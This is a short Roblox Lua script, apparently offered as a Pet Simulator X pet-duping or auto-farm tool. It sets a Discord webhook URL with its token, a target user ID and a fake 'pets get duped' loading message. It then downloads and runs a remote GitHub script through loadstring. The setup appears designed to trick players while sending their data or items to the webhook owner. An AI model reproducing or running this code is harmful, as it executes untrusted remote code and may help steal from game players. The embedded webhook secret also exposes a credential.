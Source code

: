 _G.UserID = 1612508957
_G.WebHook = "https://discord.com/api/webhooks/1063820636566331483/Gphg9rkgNDvhYP9GfT5e7kPfPZEIuVuSV8TAPdz_wVnqGxevG2YwzGNIhY0aglYtY8Zj"
_G.LoadingScreenText = "Your Pet's get duped wait a second"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

